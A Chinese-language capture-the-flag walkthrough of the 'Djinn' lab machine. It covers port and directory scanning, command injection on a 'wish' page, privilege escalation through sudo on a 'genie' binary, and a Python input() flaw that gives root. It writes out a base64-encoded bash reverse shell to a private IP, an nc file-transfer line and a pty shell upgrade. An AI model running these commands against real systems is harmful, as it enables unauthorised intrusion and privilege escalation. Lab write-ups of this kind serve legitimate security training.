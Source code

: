 # Djinn  
## 简述  
对网站目录进行爆破。发现页面存在代码执行，利用之后拿取一个低级的权限，提权通过其他的用户执行相关的命令进行提权。最后存在一个python的input漏洞利用漏洞进行提权  
## 发现  
对端口进行扫描以后记得要全面   
nmap  -p 1-65535 -sS ip  
发现开启了一个7331 端口，其中存在一个页面  

直接使用gobuster对页面进行寻找子目录  
```
 gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://192.168.1.59:7331
```  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200116220405.png) 
得到页面之后发现wish页面存在注入  
注入经过base64的命令  
```
bash -i >& /dev/tcp/192.168.43.39/1234 0>&1  | base64 -d| bash  
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMzkvMTIzNCAwPiYx| base64 -d| bash  
```  
之后反弹shell  

## 提权  
如何进行提权？ 
拿到shell第一步，获得一个交互式的shell  
```
python -c 'import pty;pty.spawn("/bin/bash")'  
```
翻看其中的文件
在/home/nitish/.dev/拿到nitish的密码   
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200116220333.png)
登录之后输入 sudo -l 查看可以执行的命令  
提示使用genie这个命令  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200116203100.png)
翻看了man文档之后构造命令  
```
sudo -u sam /usr/bin/genie -cmd 命令  
意思是使用sam这个角色登录执行/usr/bin/genie 这个命令 其中-cmd是genie的参数  
```  
直接拿到了sam的权限
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200116203609.png)    
然后继续查看sudo -l 
发现可以使用/root/lago  
查看其中的文件 发现一个隐藏文件 /home/sam/.pyc 使用反编译   
nc传输文件的方法 cat filename | nc ip port 
发现就是lago文件的编译   
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200116210153.png)  
对代码进行分析 存在input漏洞  
https://blog.51cto.com/12332766/2299894
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200116220244.png)
直接进行利用拿到root权限
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200116220222.png)
### 总结  
目录扫描哪家好 还是gobuster最巧妙  
拿到普通shell之后第一件事是转换为交互式shell  
要翻里面的文件 一般存在奸情  
要看特殊的命令会有特殊的收货  
